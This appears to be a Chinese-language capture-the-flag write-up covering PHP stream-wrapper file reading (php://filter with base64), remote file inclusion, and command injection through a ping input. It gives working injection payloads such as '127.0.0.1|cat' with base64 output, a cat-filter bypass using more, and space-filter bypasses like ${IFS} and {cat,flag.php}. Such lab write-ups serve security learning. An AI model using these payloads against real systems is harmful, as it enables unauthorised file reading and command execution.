 根据上题总结 php://input是执行 php://filter是查询

那么查询源代码?file=php://filter/(若需要base64输出read=convert.base64-encode)/resource=/flag![image-20241021175848893](D:\ctf wp\40.1.assets\image-20241021175848893.png)



## 20.远程包含

![image-20241021185527667](D:\ctf wp\40.1.assets\image-20241021185527667.png)

打开靶机与18类似![image-20241021184732395](D:\ctf wp\40.1.assets\image-20241021184732395.png)

尝试hackber发现没用 继续bp抓包构造post![image-20241021185011041](D:\ctf wp\40.1.assets\image-20241021185011041.png)

![image-20241021185018803](D:\ctf wp\40.1.assets\image-20241021185018803.png)





## 21.RCE命令注入

![image-20241021195951340](D:\ctf wp\40.1.assets\image-20241021195951340.png)

四个管道符号  |(直接执行后面的语句)   ||(如果前面的语句执行出错，则执行后面的语句，否则仅执行前面的语句)    &(前后的语句均可执行，但是前面的语句如果执行结果为假（即执行失败），则仅输出后面语句的结果)   && (如果前面的语句为假，则直接报错，也不执行后面的语句)

本题我使用|

输入127.0.0.1|ls   ![image-20241021200044244](D:\ctf wp\40.1.assets\image-20241021200044244.png)

尝试cat 2912216167521.php 即127.0.0.1|cat 2912216167521.php![image-20241021200201776](D:\ctf wp\40.1.assets\image-20241021200201776.png)

没有回显 查阅资料发现两种解法 1.输入改为127.0.0.1|........|base64 2.直接查看源代码![image-20241021200411578](D:\ctf wp\40.1.assets\image-20241021200411578.png)![image-20241021200418221](D:\ctf wp\40.1.assets\image-20241021200418221.png)





## 22.RCE 过滤cat

先照样127.0.0.1&ls 查看目录![image-20241021214754646](D:\ctf wp\40.1.assets\image-20241021214754646.png)

127.0.0.1&cat  flag_130493236032417.php|base64![image-20241021214808383](D:\ctf wp\40.1.assets\image-20241021214808383.png)

要绕过cat![image-20241021214850286](D:\ctf wp\40.1.assets\image-20241021214850286.png)

讲cat换成more得到flag

## 23.过滤空格

**当空格被过滤后,可以使用一下命令进行读取文件的内容**
< <> >重定向符
%09(需要php环境)
${IFS}
$IFS$9
{cat,flag.php} //用逗号实现了空格功能
%20
